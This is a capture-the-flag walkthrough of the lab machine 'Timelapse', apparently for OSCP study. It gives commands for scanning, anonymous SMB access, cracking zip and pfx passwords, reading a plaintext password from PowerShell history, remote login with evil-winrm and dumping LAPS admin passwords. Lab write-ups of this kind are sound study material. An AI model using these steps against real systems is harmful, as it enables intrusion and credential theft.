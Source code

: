 ## Timelapse

Difficulty: Easy

### User Flag

```
rustscan -a 10.10.11.152 --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/07df025c-2f70-40de-9ec1-e1d146e13824)

<br>

We can list smb and connects to "Shares" folder without a user.  

There is a ZIP file inside it.

```
smbclient -L 10.10.11.152 --no-pass

smbclient //10.10.11.152/Shares -U ""
```

![listingSMB](https://github.com/b1d0ws/OSCP/assets/58514930/f5de6819-4580-4669-8d08-8fc5649709a4)

![smbclient](https://github.com/b1d0ws/OSCP/assets/58514930/9bbbd965-3be1-481a-9754-99b7add8062e)

<br>

The ZIP file is password protected. We can crack it with john.

```
zip2john winrm_backup.zip > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![crackingPassword](https://github.com/b1d0ws/OSCP/assets/58514930/fdc41fa5-f3ae-456c-a939-8e6c15c6c449)

<br>

Extracting the ZIP, we get a pfx file. We can extract kets and cert from this, but we need a password to do it.

We can crack the password with [crackpkcs12](https://github.com/crackpkcs12/crackpkcs12) or pfx2john.

```
crackpkcs12 -b legacyy_dev_auth.pfx -d /usr/share/wordlists/rockyou.txt

pfx2john legacyy_dev_auth.pfx > legacyy_dev_auth.pfx.hash
john legacyy_dev_auth.pfx.hash --wordlist=/oprt/wordlist/rockyou.txt
```

![crackpkcs12](https://github.com/b1d0ws/OSCP/assets/58514930/123ee003-091b-49b5-8312-33c238e76125)

<br>

Extract key and cert with the password found.

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem
```

![extractingKeyAndCert](https://github.com/b1d0ws/OSCP/assets/58514930/47cba83e-cf5e-4d60-a66f-ea3b7fd5659c)

<br>

Use evil-winrm to authenticate with this files.

```
evil-winrm -S -k key.pem -c cert.pem -i 10.10.11.152
```

![evil-winrm](https://github.com/b1d0ws/OSCP/assets/58514930/216f87e4-4374-4d5b-b652-f4a34914f806)

<br>

### Root Flag

First we get access to svc_deploy user. His password is on powershell command history file.

```
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

evil-winrm -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -i 10.10.11.152 -S
```

![enumeratingHistory](https://github.com/b1d0ws/OSCP/assets/58514930/b10dbe07-0888-4702-83fd-70ecd94531d2)

<br>

Checking groups for this user, we see that he belongs to LAPS_Readers.

```
net user svc_deploy
```

![checkingGroups](https://github.com/b1d0ws/OSCP/assets/58514930/49bccf46-491b-4a0e-8d7f-11a4fd8548ee)

This allow us to get password from LAPS with the command above.

```
Get-ADComputer -Filter 'ObjectClass -eq "computer"' -Property *

evil-winrm -S -u 'Administrator' -i 10.10.11.152
```

![adminPassword](https://github.com/b1d0ws/OSCP/assets/58514930/3c0358ec-0d99-485d-a2e7-b66fd81050cd)

<br>

This [python script](https://github.com/n00py/LAPSDumper/blob/main/laps.py) that can also be used.

```
python3 laps.py -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -d timelapse.htb 
```

![lapsPy](https://github.com/b1d0ws/OSCP/assets/58514930/7b81b163-64a1-4277-9fb0-9b8d849e9578)
